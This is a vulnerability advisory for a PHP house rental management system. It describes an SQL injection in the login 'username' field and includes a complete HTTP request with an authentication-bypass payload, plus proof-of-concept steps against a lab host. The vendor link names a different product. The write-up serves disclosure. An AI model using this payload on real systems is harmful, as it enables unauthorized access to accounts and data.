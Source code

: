 # Best house rental management system project in php admin_class.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php admin_class.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php does not filter the content correctly at the "username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

username=mayuri.infospace%40gmail.com'+and+1%3D1+--%20&password=admin
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

> mayuri.infospace@gmail.com' and 1=1 --

​![image](assets/image-20240918173845-3vf6s8y.png)​

2.Click the login button to successfully enter the homepage.

​![image](assets/image-20240918173823-0lslvs1.png)​

Similarly, by sending a post request, you will see the login success code returned.

​![image](assets/image-20240918174224-r4n08af.png)​

In the admin_class.php source code, you can see that when executing SQL query statements, unfiltered username parameters are directly spliced, resulting in SQL injection vulnerabilities.

​![image](assets/image-20240918174719-aupleka.png)​

‍
